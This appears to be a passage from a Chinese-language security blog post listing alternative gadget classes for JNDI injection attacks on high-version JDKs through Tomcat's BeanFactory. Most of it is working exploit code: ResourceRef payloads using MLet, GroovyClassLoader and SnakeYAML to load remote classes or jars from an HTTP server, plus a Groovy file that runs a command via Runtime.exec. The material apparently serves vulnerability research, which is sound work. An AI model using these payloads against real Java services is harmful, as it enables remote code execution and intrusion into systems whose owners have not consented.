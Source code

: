 但是除了这两个类之外其实还存在很多个类都是可以进行漏洞利用的,这里简单列出浅蓝师傅在[探索高版本 JDK 下 JNDI 漏洞的利用方法](https://tttang.com/archive/1405/#toc_0x03-jdbc-rce)里面提出其他利用类:

1. javax.management.loading.MLet#addClasspath+loadClass
    
    ```java
    private static ResourceRef tomcatMLet() {
       ResourceRef ref = new ResourceRef("javax.management.loading.MLet", null, "", "",
               true, "org.apache.naming.factory.BeanFactory", null);
       ref.add(new StringRefAddr("forceString", "a=loadClass,b=addURL,c=loadClass"));
       ref.add(new StringRefAddr("a", "javax.el.ELProcessor"));
       ref.add(new StringRefAddr("b", "http://127.0.0.1:2333/"));
       ref.add(new StringRefAddr("c", "Blue"));
       return ref;
    }
    ```
2. groovy.lang.GroovyClassLoader#addClasspath+loadClass
    
    ```java
    private static ResourceRef tomcatGroovyClassLoader() {
       ResourceRef ref = new ResourceRef("groovy.lang.GroovyClassLoader", null, "", "",
               true, "org.apache.naming.factory.BeanFactory", null);
       ref.add(new StringRefAddr("forceString", "a=addClasspath,b=loadClass"));
       ref.add(new StringRefAddr("a", "http://127.0.0.1:8888/"));
       ref.add(new StringRefAddr("b", "blue"));
       return ref;
    }
    ```
    
    在http://127.0.0.1:8888/下面写入一个**blue.groovy**文件
    
    ```java
    @groovy.transform.ASTTest(value={assert Runtime.getRuntime().exec("calc")})
    class Person{}
    ```
3. org.yaml.snakeyaml.Yaml#load
    
    ```java
    private static ResourceRef tomcat_snakeyaml(){
       ResourceRef ref = new ResourceRef("org.yaml.snakeyaml.Yaml", null, "", "",
               true, "org.apache.naming.factory.BeanFactory", null);
       String yaml = "!!javax.script.ScriptEngineManager [\n" +
               "  !!java.net.URLClassLoader [[\n" +
               "    !!java.net.URL [\"http://127.0.0.1:8888/exp.jar\"]\n" +
               "  ]]\n" +
               "]";
       ref.add(new StringRefAddr("forceString", "a=load"));
       ref.add(new StringRefAddr("a", yaml));
       return ref;
    }
    ```
4. new com.thoughtworks.xstream.XStream#fromXML
    
    `new com.thoughtworks.xstream.XStream().fromXML(String)`同样符合条件
    